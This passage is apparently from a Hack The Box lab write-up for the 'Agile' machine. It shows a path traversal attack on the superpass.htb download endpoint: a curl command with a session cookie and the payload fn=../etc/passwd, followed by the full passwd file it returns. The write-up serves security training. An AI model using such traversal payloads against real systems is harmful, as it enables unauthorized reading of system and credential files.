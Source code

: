 GET http://superpass.htb/download?fn=test1_export_e0f7f7b905.csv

![superpass.htb-download.png](superpass.htb-download.png)

### Path Traversal

There is filename named `test1_export_e0f7f7b905.csv` in query string so try Path Traversal.

```console
root@kali:~/htb/Machines/Agile# COOKIE="Cookie: remember_token=9|79c660e09910b5d14ba3fc32e01e7892b7fac5b9e507883bf51e8eda5127142f02da22ba24fced2768fd306cf0c23c3fdc68a320eb729f7679702499487fb5f7; session=.eJwljksOAyEIQO_CugsRVJjLTEQh7dbprJrevSY9wPt84Izl1xOO97r9AedrwgGlD-KZJQ9KTQZJhBInzFZqTSzVlJ361OQUI886kXIVClezFNKlZlF0y4GjmbP2xKotiuAmpGERFSkNtyg8Sms76IWJhLsp7JH78vW_Ufj-AGhQLjA.ZMyEZQ.mIaqOn74Xlf7IAzbswra5C2POIw"

root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```